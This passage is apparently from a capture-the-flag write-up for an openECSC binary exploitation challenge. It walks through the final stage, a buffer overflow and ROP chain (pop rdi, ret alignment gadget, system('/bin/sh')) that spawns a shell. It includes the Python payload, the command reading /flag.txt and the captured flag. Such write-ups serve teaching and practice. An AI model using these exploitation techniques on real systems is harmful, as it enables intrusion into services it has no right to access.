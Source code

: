 **Final objective**: Call `system("/bin/sh")` to get a shell.

**The setup**:
- I'm back at the "Whats your name?" prompt (third iteration)
- I know PIE base → I know all gadget addresses
- I know libc base → I know `system()` and `/bin/sh` addresses
- I can overflow again

**The plan**:
1. Overflow the buffer
2. Set function pointer to `user_func` (returns 0, exits loop)
3. Place ROP chain at return address: `system("/bin/sh")`
4. When `user_func` returns 0, the loop exits, main does `puts("bye!")`, then returns, executing our ROP

**Important detail**: The `system()` function requires 16-byte stack alignment (due to SSE instructions). I need a `ret` gadget before calling `system()` to adjust the stack.

**Final Payload**:
```python
payload = b"A" * 104
payload += p64(user_func)      # Returns 0, exits loop
payload += p64(0)              # Saved RBP
payload += p64(pop_rdi)        # Set rdi = "/bin/sh"
payload += p64(binsh_addr)
payload += p64(ret_gadget)     # Stack alignment!
payload += p64(system_addr)    # Call system
```

**Execution flow**:
1. Loop calls `user_func(&buf)`
2. `user_func` prints message, returns 0
3. Loop exits
4. `main` does `puts("bye!")`
5. `main` epilogue: `leave; ret`
6. `ret` pops our ROP chain address
7. `pop rdi` → `binsh_addr` → `ret` → `system`
8. **Shell spawned!**

#### Getting the Flag

Once I had the shell:

```bash
$ cat /flag.txt
openECSC{v3ry_funct10n4l_v3ry_w0w}
```

**🎉 FLAG CAPTURED!**

#### Why This Worked

The beauty of this exploit is the three-stage approach:

1. **Information Leak** → Used the "admin" path and overflow without null bytes to leak the function pointer, calculating PIE base
2. **Libc Leak** → Leveraged the loop + return address control to build a ROP chain that leaks libc via `puts(got)`  
3. **Exploitation** → With all addresses known, crafted final ROP chain to call `system("/bin/sh")`

The challenge title was a perfect hint: "C supports function pointers" → The function pointer vulnerability is the entry point for the entire exploit chain!

### Solution Script

[exploit.py](exploit.py)

### Flag

**`openECSC{v3ry_funct10n4l_v3ry_w0w}`**
